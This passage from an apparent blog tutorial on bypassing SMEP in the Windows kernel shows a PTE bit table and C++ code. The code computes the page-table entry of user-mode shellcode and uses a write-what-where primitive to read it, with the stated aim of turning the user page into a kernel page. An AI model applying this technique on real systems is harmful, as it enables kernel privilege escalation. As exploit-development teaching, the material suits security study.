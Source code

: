 ![](imgs/blog/2SmepBypass/20250420042418.png)
As shown, we now get the PTE of our UM shellcode.

Now we’ll get the PTE value and modify it to turn the User page into a Kernel page.

| Bit   | Display when set | Display when clear | Meaning                                                                                                                                     |
| :---- | :--------------- | :----------------- | :------------------------------------------------------------------------------------------------------------------------------------------ |
| 0x200 | C                | -                  | Copy on write.                                                                                                                              |
| 0x100 | G                | -                  | Global.                                                                                                                                     |
| 0x80  | L                | -                  | Large page. This only occurs in PDEs, never in PTEs.                                                                                        |
| 0x40  | D                | -                  | Dirty.                                                                                                                                      |
| 0x20  | A                | -                  | Accessed.                                                                                                                                   |
| 0x10  | N                | -                  | Cache disabled.                                                                                                                             |
| 0x8   | T                | -                  | Write-through.                                                                                                                              |
| 0x4   | U                | K                  | Owner (user mode or kernel mode).                                                                                                           |
| 0x2   | W                | R                  | Writeable or read-only. Only on multiprocessor computers and any computer running Windows Vista or later.                                   |
| 0x1   | V                |                    | Valid.                                                                                                                                      |
|       | E                | -                  | Executable page. For platforms that do not support a hardware execute/noexecute bit, including many x86 systems, the E is always displayed. |

Here’s how we do it:
```cpp
...
	UINT64 ShellcodePageBase = (ULONG_PTR)ShellcodeAddr >> 9;
	ShellcodePageBase &= 0x7FFFFFFFF8;
	ShellcodePageBase += 0xFFFFF68000000000;

	printf("\n[UM Shellcode Page Base] -> 0x%p\n", ShellcodePageBase);

	PVOID Pte_details = nullptr;

	WhaWhe.What = (void*)ShellcodePageBase;
	WhaWhe.Where = (void*)&Pte_details;

	ULONG lpBytesReturned = 0;
```